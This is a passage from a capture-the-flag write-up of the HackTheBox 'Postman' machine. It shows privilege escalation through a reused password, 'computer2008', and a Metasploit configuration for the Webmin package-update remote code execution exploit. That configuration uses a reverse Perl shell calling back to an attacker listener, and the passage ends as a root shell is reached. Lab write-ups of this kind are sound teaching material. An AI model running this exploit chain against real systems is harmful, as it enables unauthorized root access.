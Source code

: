 ```sh
redis@Postman:~$ su Matt
Password:
Matt@Postman:/var/lib/redis$
```

Damnit, Matt. We talked about this password rotation policy things in so many meetings before! In his home directory we can find the user flag. Now on to root. Poking around the machine with Matt's access rights, we don't find much. It's a good time to think back: We found a Webmin panel and Matt is already guilty once of password reuse. Let's give it another shot.

![Image]({static}/images/screenshot-from-2019-12-08-13-42-37.png){: .image-process-article-image}

Matt, come on! And on top of that, someone didn't install their security updates:

![Image]({static}/images/screenshot-from-2019-12-08-13-44-55.png){: .image-process-article-image}

Webmin itself has a set of very interesting functionalities to manage systems. So it doesn't come as a surprise if it's running under elevated privileges. Scouring the web for some interesting exploits, we find this [Webmin security bulletin](http://www.webmin.com/exploit.html) - and our current version seems to be 1.910. Normally I like to script my exploits in Python to get a deeper understanding of what they do, but this time I was inspired by Matt's laziness and decided to take the easy way in with Metasploit:

```
msf5 exploit(linux/http/webmin_packageup_rce) > options

Module options (exploit/linux/http/webmin_packageup_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   computer2008     yes       Webmin Password
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.10.10.160     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      10000            yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path for Webmin application
   USERNAME   Matt             yes       Webmin Username
   VHOST                       no        HTTP server virtual hostPayload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.13      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen portExploit target:

   Id  Name
   --  ----
   0   Webmin <= 1.910
```

Firing this we end up with a root shell:
